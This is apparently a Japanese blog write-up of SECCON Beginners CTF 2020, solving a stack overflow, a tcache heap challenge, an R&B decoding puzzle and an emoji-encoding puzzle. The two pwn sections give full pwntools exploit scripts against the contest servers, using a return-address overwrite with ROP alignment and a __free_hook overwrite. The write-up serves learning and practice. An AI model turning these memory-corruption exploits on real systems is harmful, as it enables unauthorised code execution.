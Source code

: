 ```yaml
---
title: "[writeup] SECCON Begineers CTF 2020"
date: 2020-05-24T00:00:00+09:00
draft: false
langauge: "ja"
toc: true
summary: " "
tags: ["CTF"]
---
```




以下の解けた問題のみwriteupを載せます。<br>
* [pwn] Beginner's Stack<br>
* [pwn] Beginner's Heap<br>
* [crypto] R&B<br>
* [misc] emoemoencode<br>


Beginner's Stack
---
プログラム実行前後のスタックの状態がダンプされるようになっている。
リターンアドレスとbufferのオフセットを考えれば
```python
payload=''
payload+='A'*8*5
payload+=p64(0x00400861)
```
のようなペイロードを送ればよいとわかる。
しかし、実行してみると、
```
Oops! RSP is misaligned!
Some functions such as `system` use `movaps` instructions in libc-2.27 and later.
This instruction fails when RSP is not a multiple of 0x10.
Find a way to align RSP! You're almost there!
```
と怒られてしまう。
win呼び出し時にスタックポインターの値が0x10の倍数でないといけないらしい。ここで第一に書き換えるべきリターンアドレスの配置場所は0x00007ffde2cb48f8であるからこれをどうにか8byteずらせばよい。
retがあれば、
win呼び出し時のespが8byteだけずらすことが出来る。
gdb-pedaのropgadgetコマンドを用いてretを探す。
```
gdb-peda$ ropgadget
ret = 0x400626
popret = 0x400728
addesp_8 = 0x400623
```

したがってエクスプロイトコードは以下

```python
from pwn import *
context(os='linux', arch='i386')

p = remote('bs.quals.beginners.seccon.jp',9001)

payload=''
payload+='A'*8*5
payload+=p64(0x00400626)
payload+=p64(0x00400861)

p.sendline(payload)
p.interactive()
```

Beginner's Heap
---

heapの動作原理の理解が深まる問題だった。
作問者様のwriteupがわかりやすかったのでそちらを参考にされたい。
以下エクスプロイトコードと重要事項のみ書いておきます。

* chunk headerの構造をおさえる
* tcacheはUSEなchunkのfree時にサイズごとに単方向リストに連結する仕組み
* fdはFREEなchunkのwilderness(data本体)を指し示す
* malloc時にmallocされるchunkのfdがリストすなわちtcacheに連結される
* 今回はheaderのsizeを偽装することでfree時に別のサイズ用のtcacheに連結させられる


```python
from pwn import *
import time

context(os='linux', arch='i386')

p = remote('bh.quals.beginners.seccon.jp',9002)

def write(s):
    p.sendline("1")
    time.sleep(0.1)
    p.sendline(str(s))
    time.sleep(0.1)

def malloc(s):
    p.sendline("2")
    time.sleep(0.1)
    p.sendline(str(s))
    time.sleep(0.1)

def free():
    p.sendline("3")
    time.sleep(0.1)

p.recvuntil("hook>: ")
free_hook=int(p.recv(14),16)

p.recvuntil("win>: ")
win=int(p.recv(14),16)

malloc("A")
free()

payload=p64(0)*3
payload+=p64(0x31)
payload+=p64(free_hook)
write(payload)

malloc("A")

free()

malloc(p64(win))

free()

p.interactive()
```


R&B
---
フラグは以下の手順にそってエンコードされる

* rot13でエンコードした後に先頭にRを付す
* base64でエンコードした後に先頭にBを付す

したがってencoded_flagの先頭がBなので先頭のBを取り除いた文字列をbase64でデコード<br>
→さらに得られた文字列の先頭がBならばさらにbase64でデコード...<br>
という風にすればよい。
```python
import base64
import codecs

nexts='BQlVrOUllRGxXY2xGNVJuQjRkVFZ5U0VVMGNVZEpiRVpTZVZadmQwOWhTVEIxTkhKTFNWSkdWRUZIUlRGWFUwRklUVlpJTVhGc1NFaDFaVVY1Ukd0Rk1qbDFSM3BuVjFwNGVXVkdWWEZYU0RCTldFZ3dRVmR5VVZOTGNGSjFTMjR6VjBWSE1rMVRXak5KV1hCTGVYZEplR3BzY0VsamJFaGhlV0pGUjFOUFNEQk5Wa1pIVFZaYVVqRm9TbUZqWVhKU2NVaElNM0ZTY25kSU1VWlJUMkZJVWsxV1NESjFhVnBVY0d0R1NIVXhUVEJ4TmsweFYyeEdNVUUxUlRCNVIwa3djVmRNYlVGclJUQXhURVZIVGpWR1ZVOVpja2x4UVZwVVFURkZVblZYYmxOaWFrRktTVlJJWVhsTFJFbFhRVUY0UlZkSk1YRlRiMGcwTlE9PQ=='

while True:
    top=nexts[0]
    encoded_string=nexts[1:]

    if top=='B' :
        nexts=base64.b64decode(encoded_string.encode('utf-8'))
    elif top=='R' :
        nexts=codecs.decode(encoded_string,'rot13')
    else :
        break

print(nexts)

```

emoemoencode
---
問題文↓(❓)
```
🍣🍴🍦🌴🍢🍻🍳🍴🍥🍧🍡🍮🌰🍧🍲🍡🍰🍨🍹🍟🍢🍹🍟🍥🍭🌰🌰🌰🌰🌰🌰🍪🍩🍽
```
ググってもそんなエンコード方式存在しなかった...。<br>
まず文字コードを何らかの方法で変換していると予測。
一文字目から順にUnicodeを確認する。
```
“🍣” (U+1F363)
“🍴” (U+1F374) 
...
```
これに対し、変換元の文字列はctf4b{~}の形式だろうから
```
"c" (U+0063)
"t" (U+0074)
...
```
これより下二桁のみに注目すれば良いとわかる。

pythonで以下のようなスクリプトを実行すれば良い。
```python
s='🍣🍴🍦🌴🍢🍻🍳🍴🍥🍧🍡🍮🌰🍧🍲🍡🍰🍨🍹🍟🍢🍹🍟🍥🍭🌰🌰🌰🌰🌰🌰🍪🍩🍽'
a=""

for t in s:
   a+=chr(ord(t)%128)

print(a)
```